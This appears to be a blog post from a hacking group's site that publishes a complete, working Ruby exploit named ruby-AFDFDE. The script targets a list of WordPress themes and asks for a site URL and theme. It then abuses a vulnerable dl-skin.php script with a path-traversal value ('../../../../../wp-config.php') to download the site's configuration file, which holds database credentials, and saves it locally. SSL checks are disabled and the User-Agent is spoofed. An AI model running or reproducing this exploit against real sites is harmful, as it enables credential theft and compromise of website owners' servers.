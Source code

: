 ```yaml
---
layout: post
title: "Exploit AFDFDE for Ruby"
date: 2014-08-26 23:17:19 +0700
comments: true
categories: [exploit, ubuntu]
description: Exploit AFDFDE for Ruby
keywords: Exploit AFDFDE for Ruby
---
```


## ruby-AFDFDE
*read this exploit [AFDFDE](https://github.com/SurabayaBlackhat/AFDFDE)*

#### Require
* [ruby](https://www.ruby-lang.org/en/downloads/)
* [rubygems](https://rubygems.org/pages/download) 
* [curb](https://rubygems.org/gems/curb)

#### Credit
* [Vico Ervanda](https://github.com/VicoErvanda)
* [SunDi3yansyah](https://github.com/SunDi3yansyah)
* CaFc Versace
* Meninbox
* All Staff/Member SurabayaBlackhat
<!-- more -->
#### License
[GNU Affero General Public License](http://www.gnu.org/licenses/agpl-3.0.html)

### Souce
{% codeblock ruby-AFDFDE.rb %}
#!/usr/bin/ruby
require 'curb';
require 'fileutils';
require 'uri';

#create
urlInvalid = false;
themeInvalid = false;
themeCollection = ["awake","construct","dejavu",
					"echelon","elegance","fusion",
						"infocus","megastream","method",
							"modular","myriad","oakrealty","persuasion"];
def valid?(url)
	#url validator
  uri = URI.parse(url)
  uri.kind_of?(URI::HTTP)
rescue URI::InvalidURIError
  false
end

#coloring
def colorize(text, color_code)
  "\e[#{color_code}m#{text}\e[0m"
end
#declare the color
def green(text); colorize(text, 32); end
def red(text); colorize(text, 31); end
def yellow(text); colorize(text, 33); end
def blue(text); colorize(text, 34); end
def purple(text); colorize(text, 35); end
def cyan(text); colorize(text, 36); end

#begin step
puts cyan("//github.com/kampoeng/ruby-AFDFDE") + "    : " + red("ruby-AFDFDE Repository")
puts cyan("//github.com/SurabayaBlackhat/AFDFDE") + " : " + red("Exploit on Github SBH")
puts cyan("//fb.com/freeeaks") + "                    : " + purple("Vico Ervanda");
puts cyan("//fb.com/SunDi3yansyah") + "                : " + purple("SunDi3yansyah");
puts cyan("//fb.com/100004896060156") + "             : " + purple("CaFc Versace");
puts cyan("//kampoeng.co.id") + "                     : " + green("Kampoeng Network") + "\n\n";
puts green("Theme ID : ");
for i in 0..12
	puts purple(i.to_s) + " : " + yellow(themeCollection[i]);
end
puts "\n";
begin
	#trying to get a valid url
	if urlInvalid == false
		puts green("Tolong masukan url yang valid");
	else
		puts red("url tidak valid");
	end
	urlName = gets.gsub("\n","");
	if(valid?(urlName) === true)
		isUrlValid = 0;
	end;
	urlInvalid=true;
end while isUrlValid != 0;
#url now valid, tell the user
puts yellow("Situs yang vulnerable adalah : ") + cyan(urlName);
begin
	#trying to get theme identifier
	if themeInvalid == false
		puts green("Tolong masukan tema yang digunakan");
		
	else
		puts red("tema tidak valid");
	end
	themeName = gets.gsub("\n","");
	if themeName.scan(/([^0-9]+)/).count == 0 and themeName != ""
		if themeName.to_i < 13 and themeName.to_i > -1
			isThemeValid = 0;
		end
	end
	themeInvalid = true;
end while isThemeValid != 0;
#ok theme is valid, tell the user
puts yellow("Tema yang terpilih adalah : ") + cyan(themeCollection[themeName.to_i]);

#download the content using post method
c = Curl.post( urlName + "/wp-content/themes/"+themeCollection[themeName.to_i] + "/lib/scripts/dl-skin.php",{
						'_mysite_download_skin' => '../../../../../wp-config.php'
						}) do |curl|
		curl.ssl_verify_peer = false
		curl.headers["User-Agent"] = "BlackBerry/3.5.0"
	end
#assign the result
text = c.body_str;

#tell the user, what title we use for write to file
begin 
	puts green("Please specify a file name (a-zA-Z0-9)");
	fileName = gets.gsub("\n","");
	isFileNameValid = fileName.scan(/([^a-zA-Z0-9]+)/).length;
end while isFileNameValid != 0
#title ok tell the user
puts yellow("Judul file yang terpilih adalah : ") + cyan(fileName);

			f = File.open(fileName + ".txt", 'w')
			f.write(text)
			f.close
			puts fileName + ".txt - " + green("Downloaded")
#end step
{% endcodeblock %}

### [View Project on Github](https://github.com/kampoeng/ruby-AFDFDE)

<div class="github-widget" data-repo="kampoeng/ruby-AFDFDE"></div>